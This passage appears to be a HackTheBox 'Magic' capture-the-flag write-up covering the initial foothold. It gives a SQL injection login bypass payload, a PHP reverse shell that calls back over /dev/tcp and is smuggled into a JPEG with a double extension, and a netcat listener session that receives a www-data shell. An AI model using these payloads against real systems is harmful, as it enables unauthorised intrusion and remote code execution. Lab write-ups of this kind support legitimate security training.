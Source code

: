 # Initial Foothold:~$

`Login` page is vulnerbale to SQL injection we can easily bypass it and how did I know that Whenever you see a login Page try `common creds` and check for `sql injection` too

> User: `admin`
> Password: `' or '1'='1`

On Login we get `File Upload` Functionality

![Magic](/assets/img/post/hackthebox/magic/3.png)

We can use `Image` Upload functionality in our advantage to gain shell onto system


> echo "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'\");?>" >> Image.jpg 


```bash
~/htb/boxes/Magic/scripts >> echo "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.153/1234 0>&1'\");?>" >> index.jpeg
 ~/htb/boxes/Magic/scripts >> mv index.jpeg index.php.jpeg
 ~/htb/boxes/Magic/scripts >> ls
index.php.jpeg
```
`Upload` the file Before that start a `listener` on your machine

As soon as you upload the `image` open the image in another `tab`

> http://10.10.10.185/images/uploads/ImageName

Check back your Listener for any incoming connection

```bash
 ~/htb/boxes/Magic/scripts >> nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.153] from (UNKNOWN) [10.10.10.185] 55038
www-data@ubuntu:/var/www/Magic/images/uploads$ whoami
whoami
www-data
www-data@ubuntu:/var/www/Magic/images/uploads$ 
```
# Enumeration:~$
